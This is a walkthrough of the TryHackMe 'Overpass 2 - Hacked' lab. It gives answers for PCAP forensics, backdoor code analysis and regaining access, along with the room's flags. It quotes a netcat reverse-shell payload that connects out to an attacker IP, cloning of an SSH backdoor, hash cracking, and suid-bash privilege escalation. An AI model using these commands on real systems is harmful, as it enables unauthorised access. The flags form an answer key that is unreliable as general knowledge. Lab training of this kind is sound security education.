

# [Overpass 2 - Hacked](https://tryhackme.com/r/room/overpass2hacked)


## Task 1 - Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing Linux Fundamentals as a bare minimum.

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

### Answer the questions below

* What was the URL of the page they used to upload a reverse shell?

	`/development/`

	

* What payload did the attacker use to gain access?

	`exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`

	

* What password did the attacker use to privesc?
	
	`whenevernoteartinstant`

	

* How did the attacker establish persistence?

	`https://github.com/NinjaJc01/ssh-backdoor`

	

* Using the fasttrack wordlist, how many of the system passwords were crackable?

	`4`

	

	

## Task 2 - Research - Analyse the code

Now that you've found the code for the backdoor, it's time to analyse it.

### Answer the questions below

* What's the default hash for the backdoor?

	`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

	* Clone backdoor file our machine
	
		`git clone https://github.com/NinjaJc01/ssh-backdoor`

	* Open file `main.go` 
	
		

* What's the hardcoded salt for the backdoor?

	`1c362db832f3f864c8c2fe05f2002a05`

	

* What was the hash that the attacker used? - go back to the PCAP for this!

	`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

	![task2-backdoor-hash(./images/task2-backdoor-hash.png)]

* Crack the hash using rockyou and a cracking tool of your choice. What's the password?

	`november16`

	* View hash format (Password + salt) 
	 
		

	* Crete file `attacke-hash.txt`
	
			

	* Crack hash file
	
		

		


## Task 3 - Attack - Get back in!

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

### Answer the questions below

* The attacker defaced the website. What message did they leave as a heading?

	`H4ck3d by CooctusClan`

	

* Using the information you've found previously, hack your way back in!

	

* What's the user flag?

	`thm{d119b4fa8c497ddb0525f7ad200e6567}`

	```
	ssh james@$IP -p 2222 -oHostKeyAlgorithms=+ssh-rsa
	```

	

* What's the root flag?

	`thm{d53b2684f169360bb9606c333873144d}`

	* Run `.suid_bash`

		`./.suid_bash -p`

	* Get the root flag
	
		